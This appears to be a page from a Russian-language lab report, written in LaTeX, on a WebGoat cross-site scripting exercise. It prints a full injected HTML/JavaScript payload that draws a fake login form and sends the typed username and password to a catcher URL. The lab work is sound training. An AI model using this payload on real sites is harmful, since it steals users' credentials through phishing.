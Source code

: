 \documentclass[10pt,a4paper]{article}
\begin{document}
\subsubsection{Межсайтовое выполнение сценариев}

1. Фишинг - вид интернет-мошенничества, целью которого является получение доступа к конфиденциальным данным пользователей — логинам и паролям. Напишем код, который будет имитировать окно ввода логина и пароля:
\begin{lstlisting}

</form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user="+document.phish.user.value + "&password=" + document.phish.pass.value + "";alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H2><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
\end{lstlisting}

В результате, при вводе логина и пароля данная форма отправляет их на свой (фишинговый) сервис. 

\begin{figure}[h!]
\centering
\includegraphics[scale=0.7]{7.jpg}
\caption{Выполнение пункта Cross-site scripting.}
\end{figure}
\end{document}
